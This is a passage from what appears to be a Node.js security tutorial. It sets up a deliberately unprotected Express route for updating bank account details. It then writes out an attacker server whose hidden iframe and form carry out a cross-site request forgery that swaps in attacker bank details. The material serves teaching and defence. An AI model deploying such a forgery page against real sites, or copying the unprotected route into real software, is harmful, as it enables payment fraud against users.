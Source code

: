 ```
      <form method="POST" action=/update>
        <label> Sort Code <input name=sc value="${sc}"> </label> <br>
        <label> Account # <input name=ac value="${ac}"> </label> <br>
        <input type=submit>
      </form>
    `)
  })
})

app.post('/update', (req, res) => {
  if (!req.session.user) return res.sendStatus(403)
  pretendData[req.session.user].ac = req.body.ac
  pretendData[req.session.user].sc = req.body.sc
  res.send(`
    <h1> updated </h1>
    <meta http-equiv="refresh" content="1; url=/profile">
  `)
})

function pretendDbQuery (user, cb) {
  cb(null, pretendData[user])
}

app.listen(3000)
```

> #### `he.encode` ![](../info.png)
> See the **Guarding Against Cross Site Scripting (XSS)** recipe in this
> chapter for details on why we use `he.encode` here.

Now we'll create a hypothetical attackers server. 
First we'll change directory up from the `app` folder, create an 
`attacker` folder, with an `index.js` file:

```sh
$ cd ..
$ mkdir attacker
$ cd attacker
$ touch index.js
```

The `attacker/index.js` should look as follows:

```js
const http = require('http')

const attackerAc = '87654321'
const attackerSc = '11-11-11'
const attackerMsg = 'Everything you could ever want is only one click away'

const server = http.createServer((req, res) => {
  res.writeHead(200, {'Content-Type': 'text/html'})
  res.end(`
    <iframe name=hide style="position:absolute;left:-1000px"></iframe>
    <form method="post" action="http://app.local/update" target=hide>
      <input type=hidden name=sc value="${attackerAc}">
      <input type=hidden name=ac value="${attackerSc}">
      <input type=submit value="${attackerMsg}">
    </form>
  `)
})

server.listen(3001)
```